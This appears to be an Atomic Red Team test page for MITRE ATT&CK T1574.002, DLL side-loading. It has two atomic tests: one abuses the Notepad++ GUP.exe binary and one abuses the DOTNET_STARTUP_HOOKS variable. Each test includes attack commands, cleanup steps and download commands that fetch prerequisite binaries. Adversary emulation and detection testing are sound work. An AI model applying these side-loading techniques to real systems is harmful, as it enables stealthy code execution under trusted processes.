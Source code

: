 ```yaml
---
tags: [T1574_002, atomic_test]
filename: "[[T1574.002|T1574.002 - Hijack Execution Flow: DLL Side-Loading]]"
---
```


# T1574.002 - Hijack Execution Flow: DLL Side-Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/002)
<blockquote>Adversaries may execute their own malicious payloads by side-loading DLLs. Similar to [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001), side-loading involves hijacking which DLL a program loads. But rather than just planting the DLL within the search order of a program then waiting for the victim application to be invoked, adversaries may directly side-load their payloads by planting then invoking a legitimate application that executes their payload(s).

Side-loading takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other. Adversaries likely use side-loading as a means of masking actions they perform under a legitimate, trusted, and potentially elevated system or software process. Benign executables used to side-load payloads may not be flagged during delivery and/or execution. Adversary payloads may also be encrypted/packed or otherwise obfuscated until loaded into the memory of the trusted process.(Citation: FireEye DLL Side-Loading)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary](#atomic-test-1---dll-side-loading-using-the-notepad-gupexe-binary)

- [Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable](#atomic-test-2---dll-side-loading-using-the-dotnet-startup-hook-environment-variable)


<br/>

## Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary
GUP is an open source signed binary used by Notepad++ for software updates, and is vulnerable to DLL Side-Loading, thus enabling the libcurl dll to be loaded.
Upon execution, calc.exe will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 65526037-7079-44a9-bda1-2cb624838040





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| gup_executable | GUP is an open source signed binary used by Notepad++ for software updates | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;GUP.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{gup_executable}"
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Gup.exe binary must exist on disk at specified location (#{gup_executable})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{gup_executable}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{gup_executable}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "#{gup_executable}"
```




<br/>
<br/>

## Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable
Utilizing the dotnet_startup_hooks environment variable, this method allows for registering a global method in an assembly that will be executed whenever a .net core application is started. This unlocks a whole range of scenarios, from injecting a profiler to tweaking a static context in a given environment. [blog post](https://medium.com/criteo-engineering/c-have-some-fun-with-net-core-startup-hooks-498b9ad001e1)

**Supported Platforms:** Windows


**auto_generated_guid:** d322cdd7-7d60-46e3-9111-648848da7c02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| preloader_dll | library for interfacing with the dotnet framework | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;preloader.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set DOTNET_STARTUP_HOOKS="#{preloader_dll}"
dotnet -h > nul
echo.
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net SDK must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files\dotnet\dotnet.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.SDK.6 --accept-source-agreements --accept-package-agreements -h > $null
echo.
```
##### Description: preloader must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "#{preloader_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/preloader?raw=true" -OutFile "#{preloader_dll}"
```




<br/>
